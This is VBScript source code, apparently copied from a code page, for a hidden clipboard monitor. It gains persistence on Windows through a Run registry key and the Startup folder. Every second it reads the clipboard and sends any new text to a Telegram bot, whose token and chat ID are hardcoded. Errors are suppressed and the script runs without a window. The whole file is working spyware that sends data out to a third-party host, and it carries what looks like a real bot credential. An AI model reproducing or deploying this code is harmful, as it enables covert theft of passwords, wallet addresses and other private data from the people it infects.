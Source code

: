 ' Check if the script is running with administrator privileges
Set objShell = CreateObject("WScript.Shell")
Set objFSO = CreateObject("Scripting.FileSystemObject")

' If not running as admin, re-run with elevated privileges
If Not IsAdmin() Then
    ' Use the ShellExecute method to run the script as administrator
    objShell.Run "wscript.exe """ & WScript.ScriptFullName & """", 0, True
    WScript.Quit
End If

' Function to check if the script is running as administrator
Function IsAdmin()
    On Error Resume Next
    Dim objShell, objEnv
    Set objShell = CreateObject("WScript.Shell")
    Set objEnv = objShell.Environment("Process")
    
    ' Admin privileges are determined by the ability to access system folders like Program Files
    IsAdmin = (objEnv("ProgramFiles(x86)") <> "")
    On Error GoTo 0
End Function

' Add to startup registry for automatic execution on login
strRegPath = "HKCU\Software\Microsoft\Windows\CurrentVersion\Run\ClipboardMonitor"
strScriptPath = Chr(34) & WScript.ScriptFullName & Chr(34)

On Error Resume Next
If objShell.RegRead(strRegPath) = "" Then
    objShell.RegWrite strRegPath, "wscript.exe //B " & strScriptPath, "REG_SZ"
End If
On Error GoTo 0

' Save a copy of the script in the Startup folder to ensure it starts automatically
strStartupFolder = objShell.SpecialFolders("Startup")
strDestPath = strStartupFolder & "\" & objFSO.GetFileName(WScript.ScriptFullName)
If Not objFSO.FileExists(strDestPath) Then
    objFSO.CopyFile WScript.ScriptFullName, strDestPath
End If

' Telegram Bot details
botToken = "8193387679:AAGG3-UoQqRlTnrcBt7OxUJsB-cPUu8woPc"
chatID = "7055058745"

' Function to send message to Telegram
Function SendTelegramMessage(message)
    On Error Resume Next
    Dim xmlhttp
    Set xmlhttp = CreateObject("MSXML2.ServerXMLHTTP.6.0")
    xmlhttp.Open "GET", "https://api.telegram.org/bot" & botToken & "/sendMessage?chat_id=" & chatID & "&text=" & message, False
    xmlhttp.Send
    If Err.Number <> 0 Then Err.Clear
End Function

' Function to get text from clipboard
Function GetClipboardText()
    On Error Resume Next
    Dim clipboardText
    clipboardText = CreateObject("htmlfile").ParentWindow.ClipboardData.GetData("text")
    If clipboardText = "" Then GetClipboardText = "No text found" Else GetClipboardText = clipboardText
    If Err.Number <> 0 Then Err.Clear
End Function

' Main loop to keep script running and monitor clipboard
On Error Resume Next
Do While True
    Dim currentClipboardText, lastClipboardText
    currentClipboardText = GetClipboardText()
    
    If currentClipboardText <> "" And currentClipboardText <> lastClipboardText Then
        lastClipboardText = currentClipboardText
        SendTelegramMessage "New clipboard text: " & currentClipboardText
    End If
    
    WScript.Sleep 1000 ' Check every second
    If Err.Number <> 0 Then Err.Clear
Loop
